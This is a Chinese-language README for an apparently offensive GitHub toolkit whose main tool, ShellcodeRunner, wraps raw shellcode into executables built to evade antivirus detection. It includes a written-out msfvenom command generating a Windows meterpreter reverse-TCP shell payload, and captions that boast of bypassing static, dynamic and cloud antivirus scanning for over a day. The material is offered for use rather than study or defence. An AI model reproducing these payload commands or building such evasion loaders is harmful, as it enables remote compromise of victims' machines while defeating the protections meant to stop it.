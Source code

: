 # ToolSet

一个小小的工具集

## 安装

```shell
git clone $repo_url

sudo docker-compose build && sudo docker-compose up -d
```

访问 `http://127.0.0.1:8080/swagger/index.html` 即可查看接口文档


## 工具列表

### ShellcodeRunner

#### 介绍

一个shellcode包装器，可根据提供的shellcode raw[`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=4444 -f raw > ~/shell.raw`]文件
生成免杀的执行器

#### 国际惯例

![ShellcodeRunner静态bypass.webp](pics/ShellcodeRunner-static-bypassAV.webp)
![ShellcodeRunner动态bypass.webp](pics/ShellcodeRunner-dynamic-bypassAV.webp)

##### 云查杀测试

一天过去了，还能冲，应该bypass了云查杀

![一天后冲图.webp](pics/ShellcodeRunner-static-rescan-after-one-day.webp)
